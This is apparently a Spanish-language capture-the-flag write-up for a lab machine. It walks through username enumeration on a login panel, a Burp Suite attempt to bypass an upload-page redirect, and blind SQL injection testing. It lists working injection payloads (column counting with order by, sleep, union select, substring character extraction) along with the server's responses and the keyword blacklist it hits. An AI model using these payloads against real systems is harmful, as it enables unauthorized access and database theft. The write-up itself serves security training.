 Si vamos al panel de login y probamos con los usuarios encontrado, vemos un mensaje differente para los usuarios admin y chris que por los usuarios dev y lawyers.
Nos hace pensar que admin y chris son validos.

El usuario a podido entrar por la funccion de upload de imagenes. Si intentamos ir a la url 
```bash
 http://10.10.10.73/upload.php 
```
 hay una redireccion automatica hacia el
panel de login. Comprobamos con Burpsuite si el redirect a sido sanitizado correctamente.

### Control de la redireccion con Burpsuite {-}

Primeramente controlamos si burpsuite intercepta no unicamente las requests pero tambien las respuestas al lado del servidor. Si es el caso,
lanzamos una peticion desde el navigador al la url 
```bash
 http://10.10.10.73/upload.php 
```
 y cuando interceptamos el 302 Redirect, lo cambiamos a 200 pero en este
caso parece que la redirection a sido bien sanitizada porque solo vemos una pagina en blanco.


## Vulnerability Assessment {-}

### Blind SQL Injection {-}

Como no podemos utilizar el 
```bash
 upload.php 
```
 solo nos queda que intentar cosas con el panel de login.
Como sabemos que el usuario **admin** existe, probamos cosas como:

- admin:test -> Wrong identification: admin
- admin':test -> Try Again
- admin' and sleep(5)-- -:tes -> Hacking attempt detected
- ():test -> Try Again
- sleep:test -> Hacking attempt detected
- admin' order by 100-- -:test -> Try Again
- admin' order by 3-- -:test -> Wrong identification: admin
- admin' order by 4-- -:test -> Wrong identification: admin
- admin' order by 5-- -:test -> Try Again
- admin' union select 1,2,3,4-- -:test -> Hacking attempt detected
- select:test -> Try Again
- union:test -> Hacking attempt detected
- dsafdasdfuniondasfasdf:test -> Hacking attempt detected

Estas pruebas nos dan, como informacion, que el panel de login parece ser vulnerable a SQLI, que palabras como union o sleep estan black listeadas y 
que la respuesta de la llamada SQL tiene 4 columnas. Vamos a validar la respuesta de la web en caso de un error y en caso de una buena formula.

- admin' and substring(username,1,1)='a'-- -:test -> Wrong identification: admin
- admin' and substring(username,1,1)='b'-- -:test -> Try Again
- admin' and substring(username,2,1)='d'-- -:test -> Wrong identification: admin
- admin' and substring(username,2,1)='w'-- -:test -> Try Again
